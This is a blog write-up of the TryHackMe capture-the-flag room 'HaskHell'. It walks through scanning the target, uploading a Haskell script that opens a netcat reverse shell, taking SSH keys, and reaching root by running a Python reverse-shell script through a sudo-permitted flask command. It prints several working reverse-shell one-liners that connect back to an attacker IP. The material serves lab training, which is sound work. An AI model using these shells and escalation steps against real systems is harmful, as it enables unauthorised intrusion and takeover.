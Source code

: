 ```yaml
---
layout: post
title: WRITE UP - TryHackMe - HaskHell
date: 2022-02-19
---
```


# Writeup - TryHackMe - HaskHell

**This article was initially published in my former blog on the 12th of October 2020**
Today i am going to present the write up for [HaskHell](https://tryhackme.com/room/haskhell) on TryHackMe.

First of all after having deployed the machine, we can run nmap on the targeted IP.

## Nmap

`nmap -p- -sV 10.10.54.105`

Result of Nmap:  
```
kali@kali:~$ nmap -p- -sV 10.10.54.105 -T4
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-11 11:40 EDT
Nmap scan report for 10.10.54.105
Host is up (0.23s latency).
Not shown: 65533 closed ports
PORT STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
5001/tcp open  http    Gunicorn 19.7.1
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1183.25 seconds
```
We can see that port 5001 is http and open.

## Let’s have a look at Port 5001

Go to `http://<target-ip>:5001`  

![Homepage](/img/port-5001-thm-haskhell.png){: width="500" }  
*Homepage of the haskell course*

If you click on « homework here » you will find a page with an exercise  

![Homewwork](/img/homework-thm-haskhell.png){: width="500" }  
The link to submit exercise respond with a 404.
Also the following screen shows us that this teacher has already been hacked.  
![Hint](/img/hint-thm-haskhell.png){: width="500" }  

This also gives us a huge hint: We can submit a haskell script and it will be interpreted. So let’s try to make a reverse shell.

But first let’s try to execute a command. Here is the documentation to execute a command with haskell: [System Process on haskell](https://ghc.gitlab.haskell.org/ghc/doc/libraries/process-1.6.10.0/System-Process.html)

Also we need to find where to upload our script, let’s run dirb.

## Dirb

![Dirb](/img/dirb-thm-haskhell.png){: width="500" }  
`http://10.10.54.74:5001/submit`  
![Submit Assignment](/img/submit-assignement-thm-haskhell.png){: width="500" }  
*The page where we will submit our shell*  
Okay, now that we know where to put our script. Let’s write it!

## Reverse shell with Haskell

I did not know anything about haskell so after some digging i found out that i had to save my script with .hs in the end for it to be recognized and executed by our target.

Also the text in homework1 specifies: « Your file will be compiled and ran and all output will be piped to a file under the uploads directory. »
This means that we will be able to see our output and errors in order to debug our script if we need (which was really helpful for me)

First i tried a simple ls
```
#!/bin/env runhaskell
import System.Process

main :: IO ()
main = do
 let stdin' = ""
 (errCode, stdout', stderr') <- readProcessWithExitCode "ls" ["-lar"] stdin'
 putStrLn $ "stdout: " ++ stdout'
 putStrLn $ "stderr: " ++ stderr'
 putStrLn $ "errCode: " ++ show errCode
```

And i got this:  
![ls with haskell](/img/ls-haskell-thm-haskhell.png){: width="500" }  

On `pentestmonkey.net` we find the following command:  

```
nc -e /bin/sh 10.0.0.1 1234
```
So i tried a netcat with the `-e` option to specify what to do after the nc.
However, there were 2 errors on my case my port 1234 was busy and the netcat command on the target did not handle -e option. Resolving the first error is easy (changed my port to 8888) but not the second one 🙂
So the script that worked for me was the following one:
```
module Main where 
import System.Process
 main = system "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <your-ip> 8888>/tmp/f"
```
Indeed according to this [website](https://gist.github.com/sckalath/67a59eb4955f1f9aedde), the following command would be handled on the other netcat versions:

```
#other version of netcat 
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 8888 >/tmp/f
```

Do not forget before uploading the script to launch you listener on your attacking machine
```
nc -lvp 8888
```
And then we get a shell:  
![initial access](/img/initial-access-thm-haskhell.png){: width="500" }  

And we can get the user flag:

```
$ ls
__pycache__
user.txt
$ cat user.txt
```

Now that we got user we need to get root. But first let’s find to way to avoid having to connect through our webshell. Let’s try to use ssh. If we navigate to the user .ssh folder we have a key pair.
Let’s try to get those on our attacker machine by running python simple http server.  

![SSH](/img/ssh-thm-haskhell.png){: width="500" }  
Then from the attacking machine we can connect through ssh after having set up the proper permission for our private key (700)
![Change permissions](/img/perm-key-thm-haskhell.png){: width="500" }  
To have an interactive shell we can run this:
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
And there we go:  
![Interactive shell](/img/interactive-shell-thm-haskhell.png){: width="500" }  

## Linux enumeration with linepeas

Let’s upload linepeas in our target machine.

On our kali we run
```
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
```
And then we launch python simple server to put it on the target  

![Linepeas](/img/linepeas-wget-pythonserv-thm-haskhell.png){: width="500" }  

And from our target we get it with:
```
$ wget http://10.2.28.215:8000/linpeas.sh$ chmod 755 linepeas.sh$ ./linpeas.sh
```
Linepeas is very good but for this context we could have done a sudo -l before and this would have been it. It is a good habit to try this before doing anything else.  
![Sudo -l](/img/sudo-l-thm-haskhell.png){: width="500" }  
Here is what we get if we run flask:

![flask](/img/flask-thm-haskhell.png){: width="500" }  

Well it is very useful. We know that we need to write a script and launch it as root. In my case i did a reverse shell but it can be even easier to just launch a shell with a python command.

Here is the reverse shell i did with a script:

```
#!/usr/bin/env python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("your-ip",8888))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

We then just have to set up a new listener on our attacker machine:

```
nc -lvp 8888
```

Export our script to our env (target machine)  

![Export of our script](/img/export-script-flask-thm-haskhell.png){: width="500" }  

And we run our script as root from the target machine:  
![Run as root](/img/run-as-root-thm-haskhell.png){: width="500" }  

We get a shell from our attacking machine. So let’s run our command to get an interactive shell:

```
python -c 'import pty; pty.spawn("/bin/bash")'
```

We now have the root flag:  

![Get root flag](/img/root-flag-thm-haskhell.png){: width="500" }  